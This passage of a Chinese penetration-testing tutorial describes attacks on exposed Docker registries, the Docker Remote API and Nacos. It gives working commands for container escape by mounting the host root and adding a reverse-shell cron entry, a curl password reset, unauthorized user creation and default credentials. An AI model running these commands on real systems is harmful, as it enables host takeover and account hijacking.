 访问/v2/\_catalog接口即可查看全部仓库内容

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-c506302d2a4bd8ad82556dbabd2be3a46eb0eae8.png)  
[https://github.com/Soufaker/docker\_v2\_catalog](https://github.com/Soufaker/docker_v2_catalog)

利用上述工具可直接下载镜像

### 2.3.2、 Docker Remote API未授权访问

为了管理容器集群，Docker允许Daemon作为后台守护进程执行通过管理接口发送的Docker命令，使用参数-H 0.0.0.0:2375启动Docker Daemon时，将开放2375端口接收来自远程Docker客户端的命令。在这种情况下，2375端口被作为非加密端口暴露出来，并且不存在任何形式的身份验证，攻击者可以直接使用Docker命令连接到Docker Daemon，并对容器进行直接操作，配合根目录挂载即可实现容器逃逸。

```php
#查看容器
docker -H tcp://<target>:2375 ps -a
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-51cfb8bea7521008030a205378af8c6c852f3660.png)

```php
#挂载宿主机的根目录到容器内的mnt目录
docker -H tcp://<target>:2375 run -it -v /:/mnt nginx:latest /bin/bash
#反弹shell
echo '反弹shell命令' >> /mnt/var/spool/cron/crontabs/root
```

2.4、Nacos
---------

Nacos是一个开源的动态服务发现、配置管理和服务管理平台，它提供了注册中心、配置中心和服务管理等功能，帮助开发人员实现微服务架构中的服务注册、配置管理以及服务发现等需求。

作为一个开源工具，漏洞还是被披露不少的，

**未授权访问：**[/nacos/v1/auth/users?pageNo=1&amp;pageSize=1](http://192.168.80.131:8848/nacos/v1/auth/users?pageNo=1&pageSize=1) 直接查看用户

**任意用户添加**：POST [/nacos/v1/auth/users](http://192.168.80.131:8848/nacos/v1/auth/users?pageNo=1&pageSize=1) username= &amp; password=

**任意用户密码修改**：curl -X PUT '<http://127.0.0.1:8848/nacos/v1/auth/users?accessToken>\\=' -H 'User-Agent:Nacos-Server' -d 'username\\=test1&amp;newPassword\\=test2'

**弱口令**：nacos/nacos

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-bc51f0813b8aa1b7f7072167c68ba15a26d10279.png)

通过编排密码爆破进后台，发现大量配置文件，但敏感信息均被加密

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-62d51f1c7326e7114b1022865a3669ed6d4f46b7.png)

### 2.4.1、Jasypt加密

Spring 的配置文件中会有一些敏感信息，如数据库密码，因此有时我们希望将敏感信息加密，Jasypt 就是其中比较方便的工具，Jasypt 是一个 Java 库，用于简化敏感数据（如密码、API 密钥等）的加密和解密操作。

加密的内容需要用 ENC(..) 括起来，加密用的密码通过 jasypt.encryptor.password 指定。
